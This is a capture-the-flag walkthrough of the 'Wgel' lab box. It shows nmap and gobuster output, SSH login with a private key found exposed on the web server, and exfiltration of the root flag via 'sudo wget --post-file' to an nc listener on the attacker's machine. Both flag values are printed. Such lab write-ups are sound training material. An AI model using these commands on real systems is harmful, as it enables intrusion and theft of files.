 # Wgel CTF

## Description

Have fun with this easy box.

# Initial Scan

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 5.4 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.19 (92%)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Nmap scan shows two open ports:

* 22 ssh
* 80 http

# Web

The ssh service requiers creds, so i moved on to http. I started enumerating by running gobuster on the web page. While it was running I started checking the source code and found a possible username: `jessie`

Gobuster found `/sitemap`. I ran gobuster on it again and ended up finding a very useful file.

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkThroughs/thm/Wgel]
└─$ gobuster dir -u http://$IP:80/sitemap/.ssh -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.194.38:80/sitemap/.ssh
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/22 06:08:49 Starting gobuster in directory enumeration mode
===============================================================
/id_rsa               (Status: 200)
~~~

# Gaining a Shell

This file contained a private RSA key. I saved it as "rsa_key" and set its permission to 600 and then using the username I found earlier, logged on SSH service and now I have a shell as "jessie".

~~~
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Wgel/files]
└─$ chmod 600 rsa_key  
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Wgel/files]
└─$ ssh -i rsa_key jessie@$IP
The authenticity of host '10.10.194.38 (10.10.194.38)' can't be established.
ECDSA key fingerprint is SHA256:9XK3sKxz9xdPKOayx6kqd2PbTDDfGxj9K9aed2YtF0A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.194.38' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ id
uid=1000(jessie) gid=1000(jessie) groups=1000(jessie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
~~~

# User Flag

I started looking around in the home directory and found the user flag in `~/Documents`.

~~~
jessie@CorpOne:~$ cat Documents/user_flag.txt 
057c67131c3d5e42dd5cd3075b198ff6
~~~

user flag: `057c67131c3d5e42dd5cd3075b198ff6`

## Root Flag

Now I need to gain the root flag. I ran `sudo -l` and I can run `wget` with sudo and no apssword. There many thing we can do here but I go with the faster one. We can use this command to post files too. After seeing the user flag's name we can kinda guess the name of the root flag file. So I started a listener on my machine and then posted the root flag to my machine.

On my machine:
~~~
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Wgel/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~

On target machine:
~~~
jessie@CorpOne:~$ sudo wget --post-file=/root/root_flag.txt 10.9.0.154:4444
--2021-09-22 14:04:37--  http://10.9.0.154:4444/
Connecting to 10.9.0.154:4444... connected.
HTTP request sent, awaiting response...
~~~

And now the root flag has been sent.
~~~
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Wgel/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.0.154] from (UNKNOWN) [10.10.194.38] 38728
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.9.0.154:4444
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d
~~~

Root flag: `b1b968b37519ad1daa6408188649263d`

# D0N3! ; )

Hope you had fun hacking! : )